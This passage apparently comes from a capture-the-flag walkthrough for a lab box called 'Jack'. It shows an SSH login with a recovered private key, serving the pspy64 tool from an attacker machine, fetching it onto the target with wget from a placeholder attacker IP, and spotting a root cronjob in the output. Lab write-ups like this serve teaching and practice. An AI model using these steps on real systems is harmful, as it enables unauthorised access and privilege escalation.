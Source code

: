 ```bash
ssh -i id_rsa.txt jack@jack.thm
```
![image](https://github.com/user-attachments/assets/d88a112b-4fa9-4b0a-837f-200475f65947)


Now, how to gain root access? Let's first use the `pspy` tool to see all the processes running, including those run by other users (like root), without needing root access.
Download it from [pspy64 github](https://github.com/Cerbersec/scripts/blob/master/linux/pspy64), then transfer it to the target machine.

**on the attacker machine**
```bash
wget https://github.com/Cerbersec/scripts/blob/master/linux/pspy64
chmod +x pspy64
python3 -m http.server 8000

```
**on the target machine**
```bash
cd /tmp
wget http://<attacker-ip>:8000/pspy64
chmod +x pspy64
./pspy64
```
**output**
```bash
jack@jack:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/06/26 08:40:01 CMD: UID=0    PID=12814  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2025/06/26 08:42:01 CMD: UID=0    PID=12820  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py
```

The root user has a **cronjob** that runs every minute. View the content of the Python script
